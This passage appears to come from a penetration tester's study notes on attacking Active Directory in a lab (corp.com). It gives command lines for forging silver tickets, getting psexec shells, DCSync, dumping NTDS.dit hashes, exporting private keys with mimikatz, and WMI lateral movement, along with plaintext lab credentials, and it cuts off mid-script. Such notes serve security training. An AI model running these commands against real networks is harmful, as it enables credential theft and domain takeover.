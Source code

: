 > [!Hint]
> After crafting the ticket, we can use the powershell command `klist` to check if it is ready to use in memory
- We can also use `impacket-ticketer` to create a silver ticket
```zsh
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain corp.com -spn MSSQL/sql_srv1.corp.com -user-id 500 Administrator
```
- We can then use `impacket-psexec` to try and get a shell
```zsh
impacket-psexec -k -no-pass dc01.corp.com -dc-ip 192.168.231.11
```
### Domain Controller Synchronization
- If we have a user with _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights we can launch a DC replication and perform a dcsync attack. 
- For this we can use `mimikatz` or `impacket-secretsdump`
```powershell
lsadump::dcsync /user:corp\Administrator
```
```zsh
impacket-secretsdump -just-dc-user Administrator corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

## Active Directory Certificate Services
### Exporting Private Keys
- Most often, we can not simply export private keys from certificate stores. Hoever, we can try to make them exportable by patching the CryptoAPI using `mimikatz`by using `crypto::capi` 
- Another way could be to to patch the KeyIso service with `mimikatz` using `crypto::cng`

## NTDS
- As descriped on [thehacker.recipes](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds) we can use the file `NTDS.dit` to extract hashes for users, groups, security descriptors and passwords
- If we find (or are able to extract) this, we can parse it and dump secrets using `impacket-secretsdump`
- We can also use [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite) to dump more than just secrets (users, groups, OUs etc.)
```zsh
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL

impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

# Lateral Movement In Active Directory
## WMI and WinRM
- If we have RPC port 135 open on a remote host, we can use WMI to create a process on the remote host
```cmd
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```
```powershell
$username = 'alexa';
$password = 'P@ssw0rd!';

$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;

$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$options = New-CimSessionOption -Protocol DCOM
```